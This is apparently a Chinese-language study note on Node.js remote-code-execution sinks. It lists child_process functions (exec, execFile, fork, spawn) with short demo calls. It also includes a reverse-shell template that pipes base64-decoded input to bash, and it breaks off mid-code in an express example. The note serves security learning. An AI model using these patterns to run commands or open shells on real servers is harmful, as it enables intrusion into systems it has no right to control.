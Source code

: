 <a name="rFBUl"></a>
# 写在前面
师傅太强了[https://boogipop.com/2023/03/02/Node.Js%E5%AE%89%E5%85%A8%E5%88%86%E6%9E%90/#%E4%B8%80%E4%BA%9B%E5%8D%B1%E9%99%A9%E5%87%BD%E6%95%B0](https://boogipop.com/2023/03/02/Node.Js%E5%AE%89%E5%85%A8%E5%88%86%E6%9E%90/#%E4%B8%80%E4%BA%9B%E5%8D%B1%E9%99%A9%E5%87%BD%E6%95%B0)
<a name="TazzF"></a>
# 
<a name="boMsO"></a>
# rce函数
<a name="GX1kB"></a>
## eval()
和php的eval类似，只不过要用nodejs特有的方法进行rce。

```javascript
spawn()，开启一个子进程用来执行命令。
exec(),启用子进程，可使用回调函数
execFile()，启用子进程用来执行可执行文件，实际上第一个参数可以是执行的命令。
fork()，用于执行恶意文件，需提前写入。
```
chile_process.exec调用的是/bash.sh，它是一个bash解释器，可以执行系统命令。<br />以上所有函数都是child_process模块中的函数
<a name="O6UMU"></a>
## exec()
```javascript
var process=require('child_process');
process.exec("whoami")
```
<a name="lt1Ri"></a>
## execFile
```javascript
require('child_process').execFile("ipconfig",{shell:true});
```
<a name="E4SJ7"></a>
## fork
```javascript
require('child_process').fork("./evil.js");
```
用于执行恶意文件，偏向js。
<a name="QpPY0"></a>
## spawn
```javascript
require('child_process').spawn("calc",{shell:true});
```
进行反弹shell：require('child_process').exec('echo SHELL_BASE_64|base64 -d|bash');或者bash -c "bash -i xxx"
<a name="aEzGz"></a>
## settimeout
两秒后执行函数，这里直接写个无参匿名函数。
```javascript
var express = require("express");
var app = express();

setTimeout(()=>{
    console.log("console.log('1919810')");
},2000);

var server = app.listen(1234,function(){
```